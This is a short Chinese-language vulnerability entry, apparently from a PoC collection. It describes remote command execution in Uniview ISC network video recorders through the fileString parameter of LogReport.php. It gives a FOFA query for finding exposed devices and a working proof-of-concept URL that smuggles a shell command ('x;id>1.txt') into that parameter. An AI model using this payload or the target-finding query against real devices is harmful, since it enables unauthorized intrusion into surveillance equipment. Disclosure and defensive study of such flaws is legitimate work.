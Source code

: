 # 浙江宇视科技 网络视频录像机 ISC LogReport.php 远程命令执行漏洞

## 漏洞描述

浙江宇视科技 网络视频录像机 ISC /Interface/LogReport/LogReport.php 页面，fileString 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

```
浙江宇视科技 网络视频录像机 ISC
```

## FOFA

```
app="uniview-ISC"
```

## 漏洞复现

登录页面

![image-20220519183432893](./images/202205191834953.png)

验证POC

```
/Interface/LogReport/LogReport.php?action=execUpdate&fileString=x;id>1.txt
```

![image-20220519183528302](./images/202205191835400.png)